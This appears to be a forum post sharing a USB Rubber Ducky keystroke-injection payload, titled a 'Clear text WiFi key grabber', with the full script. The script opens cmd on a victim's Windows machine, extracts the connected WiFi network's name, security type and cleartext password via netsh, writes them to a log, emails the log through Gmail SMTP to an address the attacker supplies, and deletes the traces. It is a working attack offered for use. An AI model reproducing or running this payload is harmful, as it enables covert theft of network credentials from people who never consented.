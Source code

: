 This payload:

    Opens CMD
    Finds the key (password) of the WiFi the target is connected to
    Saves the SSID, Network type, Authentication and the key to Log.txt
    And emails Log.txt via gmail

Change the following things;

    ACCOUNT: Your gmail account
    PASSWORD: Your gmail password
    RECEIVER: The email you want to send Log.txt to

If you have any suggestions please tell me.
Code:

REM Author: Siem
REM Version: 1
REM Description: Clear text WiFi key grabber
DELAY 2000
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000
REM --> Change directory (you can change this to something else to make less visible)
STRING cd "%USERPROFILE%\Desktop"
ENTER
REM --> Get SSID
STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
ENTER
REM --> Get network type
STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
ENTER
REM --> Get authentication
STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
ENTER
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
ENTER
REM --> Get key
STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
ENTER
REM --> Delete Temp.txt
STRING del Temp.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!' 
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
